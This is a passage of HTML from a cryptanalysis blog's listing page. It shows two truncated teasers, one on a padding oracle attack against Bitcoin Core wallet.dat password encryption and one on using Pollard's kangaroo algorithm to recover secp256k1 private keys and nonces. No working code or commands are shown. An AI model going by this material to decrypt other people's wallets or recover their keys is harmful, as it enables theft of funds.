</article><!-- #post-2053 --><article id="post-2475" class="itng-blog col-md-6 col-lg-4 post-2475 post type-post status-publish format-standard hentry category-cryptanalysis">
		

			

							

			
			

				

					
					 <a class="url fn n" href="https://cryptodeeptech.ru/author/cryptodeeptech/">Crypto Deep Tech</a>				
<!-- .entry-meta -->
				
				<header class="entry-header">
					<h2 class="entry-title"><a href="https://cryptodeeptech.ru/padding-oracle-attack-on-wallet-dat/">Padding Oracle Attack on Wallet.dat password decryption for the popular wallet Bitcoin Core</a></h2>				</header><!-- .entry-header -->
				
				

					In this article, we will use the classification of common attack patterns from the cybersecurity resource&nbsp;[CAPEC™]&nbsp;.&nbsp;The “Padding Oracle Attack”&nbsp;was first discussed&nbsp;on&nbsp;Wallet.dat&nbsp;back in 2012&nbsp;(on the vulnerability management and threat analysis platform&nbsp;“VulDB”&nbsp;)&nbsp;.&nbsp;The problem of the most popular&nbsp;Bitcoin Core&nbsp;wallet affects the work&nbsp;&nbsp;AES Encryption Paddingin the file&nbsp;Wallet.dat The technical details of this attack are known: https://en.wikipedia.org/wiki/Padding_oracle_attack An attacker can effectively decrypt…				

				
				

					

						<a href="https://cryptodeeptech.ru/category/cryptanalysis/" rel="category tag">Cryptanalysis</a>					

					

						0					

				

			

		

</article><!-- #post-2475 --><article id="post-322" class="itng-blog col-md-6 col-lg-4 post-322 post type-post status-publish format-standard hentry category-cryptanalysis">
		

			

							

			
			

				

					
					 <a class="url fn n" href="https://cryptodeeptech.ru/author/cryptodeeptech/">Crypto Deep Tech</a>				
<!-- .entry-meta -->
				
				<header class="entry-header">
					<h2 class="entry-title"><a href="https://cryptodeeptech.ru/kangaroo/">Pollard’s Kangaroo find solutions to the discrete logarithm secp256k1 PRIVATE KEY + NONCES in a known range</a></h2>				</header><!-- .entry-header -->
				
				

					In this article, we will look at the fastest algorithm for ECDLP from the field of computational number theory, Pollard's kangaroo is also called Pollard's lambda algorithm. Pollard's kangaroo method computes&nbsp;&nbsp;discrete logarithms&nbsp;&nbsp;in arbitrary cyclic groups.&nbsp;It is applied if the discrete logarithm is known to lie in a certain range, say&nbsp;&nbsp;[ a , b ], and then has…				

				
				

					

						<a href="https://cryptodeeptech.ru/category/cryptanalysis/" rel="category tag">Cryptanalysis</a>					

					

						0					

				

			

		

</article><!-- #post-322 -->			

		

			

			

							

			

				<h4 class="author_name title-font">
					Crypto Deep Tech				</h4>
				

									

			

		

	
	</main><!-- #main -->

<!-- #content-wrapper -->

 

    

        

                    

    

	<footer id="colophon" class="site-footer">
		

			

				Donation Address: <a href="https://www.blockchain.com/btc/address/1Lw2gTnMpxRUNBU85Hg4ruTwnpUPKdf3nV" target="_blank">♥  BTC: 1Lw2gTnMpxRUNBU85Hg4ruTwnpUPKdf3nV</a>				 | 
					Copyright © 2025 «CRYPTO DEEP TECH». 			
<!-- .site-info -->
		

	</footer><!-- #colophon -->

<!-- #page -->

<nav id="menu" class="panel" role="navigation" style="position: fixed; top: 0px; bottom: 0px; height: 100%; left: -15.625em; width: 15.625em;">
	

	

		<button class="go-to-bottom"></button>
		<button id="close-menu" class="menu-link"><i class="fa fa-chevron-left" aria-hidden="true"></i></button>
	

	<ul id="menu-main" class="menu"><li id="menu-item-229" class="menu-item menu-item-type-custom menu-item-object-custom menu-item-home"><a href="https://cryptodeeptech.ru/">HOME</a></li>
<li id="menu-item-225" class="menu-item menu-item-type-post_type menu-item-object-page"><a href="https://cryptodeeptech.ru/publication/">PUBLICATIONS</a></li>
<li id="menu-item-226" class="menu-item menu-item-type-post_type menu-item-object-page"><a href="https://cryptodeeptech.ru/study/">STUDY</a></li>
<li id="menu-item-227" class="menu-item menu-item-type-post_type menu-item-object-page"><a href="https://cryptodeeptech.ru/resources/">RESOURCES</a></li>
<li id="menu-item-228" class="menu-item menu-item-type-post_type menu-item-object-page"><a href="https://cryptodeeptech.ru/contacts/">CONTACTS</a></li>
<li id="menu-item-240" class="menu-item menu-item-type-post_type menu-item-object-post"><a href="https://cryptodeeptech.ru/lattice-attack/">BLOG</a></li>
<li id="menu-item-541" class="menu-item menu-item-type-post_type menu-item-object-page"><a href="https://cryptodeeptech.ru/eng/">ENG</a></li>
<li id="menu-item-542" class="menu-item menu-item-type-post_type menu-item-object-page"><a href="https://cryptodeeptech.ru/rus/">RUS</a></li>
</ul>
	<button class="go-to-top"></button>
</nav>

	

		 

			 

				

					<ul id="menu-desktop" class="menu"><li class="menu-item menu-item-type-custom menu-item-object-custom menu-item-home menu-item-229"><a href="https://cryptodeeptech.ru/">HOME</a></li>
<li class="menu-item menu-item-type-post_type menu-item-object-page menu-item-225"><a href="https://cryptodeeptech.ru/publication/">PUBLICATIONS</a></li>
<li class="menu-item menu-item-type-post_type menu-item-object-page menu-item-226"><a href="https://cryptodeeptech.ru/study/">STUDY</a></li>
<li class="menu-item menu-item-type-post_type menu-item-object-page menu-item-227"><a href="https://cryptodeeptech.ru/resources/">RESOURCES</a></li>
<li class="menu-item menu-item-type-post_type menu-item-object-page menu-item-228"><a href="https://cryptodeeptech.ru/contacts/">CONTACTS</a></li>
<li class="menu-item menu-item-type-post_type menu-item-object-post menu-item-240"><a href="https://cryptodeeptech.ru/lattice-attack/">BLOG</a></li>
<li class="menu-item menu-item-type-post_type menu-item-object-page menu-item-541"><a href="https://cryptodeeptech.ru/eng/">ENG</a></li>
<li class="menu-item menu-item-type-post_type menu-item-object-page menu-item-542"><a href="https://cryptodeeptech.ru/rus/">RUS</a></li>
</ul>				

				<button href="#menu" class="menu-link mobile-nav-btn"><i class="fa fa-bars" aria-hidden="true"></i></button>

				<button type="button" id="go-to-field" tabindex="-1"></button>

				<button class="search-btn-sticky ml-auto col-auto"><i class="fa fa-search"></i></button>
				

	<form role="search" method="get" class="search-form" action="https://cryptodeeptech.ru/">
				<label>
					Search for:
					<input type="search" class="search-field" placeholder="Search …" value="" name="s">
				</label>
				<input type="submit" class="search-submit" value="Search">
			</form>	<button type="button" id="go-to-btn" tabindex="-1"></button>

			

		

	

<i class="fa fa-chevron-up" aria-hidden="true"></i>

		
	

<!-- Yandex.Metrika counter -->  <noscript>

</noscript> <!-- /Yandex.Metrika counter -->
<!-- Yandex.Metrika counter -->

<noscript>

</noscript>
<!-- /Yandex.Metrika counter -->

</body></html>